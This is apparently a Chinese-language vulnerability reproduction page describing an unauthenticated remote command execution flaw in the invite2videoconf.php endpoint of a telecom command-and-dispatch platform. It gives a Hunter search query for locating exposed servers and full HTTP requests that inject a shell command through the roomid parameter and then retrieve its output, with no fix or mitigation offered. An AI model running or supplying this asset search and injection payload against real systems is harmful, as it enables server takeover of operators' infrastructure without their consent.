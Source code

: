 # 指挥调度平台invite2videoconf存在远程命令执行漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">指挥调度管理平台是一个专业针对通信行业的管理平台。该产品旨在提供高效的指挥调度喝管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务。指挥调度平台invite2videoconf存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(51, 51, 51);">三、资产测绘</font>
+ <font style="color:rgb(51, 51, 51);">hunter</font>`<font style="color:rgb(51, 51, 51);">web.body="app/structure/departments.php"</font>`
+ <font style="color:rgb(51, 51, 51);">特征</font>

![1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74.png](./img/9I-6Dftk3FzJMfK0/1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74-374335.png)

# <font style="color:rgb(51, 51, 51);">四、漏洞复现</font>
```plain
GET /api/client/invite2videoconf.php?callee=1&roomid=`id>1.txt` HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=9d162ed31bcb785f6f5cb1fcc92dfff2
Upgrade-Insecure-Requests: 1
```

![1704269810485-436485d3-d594-4d97-a153-bbbe5e015577.png](./img/9I-6Dftk3FzJMfK0/1704269810485-436485d3-d594-4d97-a153-bbbe5e015577-982852.png)

获取命令执行结果

```plain
GET /api/client/1.txt HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=9d162ed31bcb785f6f5cb1fcc92dfff2
Upgrade-Insecure-Requests: 1
```

![1704269858932-57965ade-866e-41f8-850f-7f9cbbbc6662.png](./img/9I-6Dftk3FzJMfK0/1704269858932-57965ade-866e-41f8-850f-7f9cbbbc6662-188253.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kasf0a92raukvgf5>
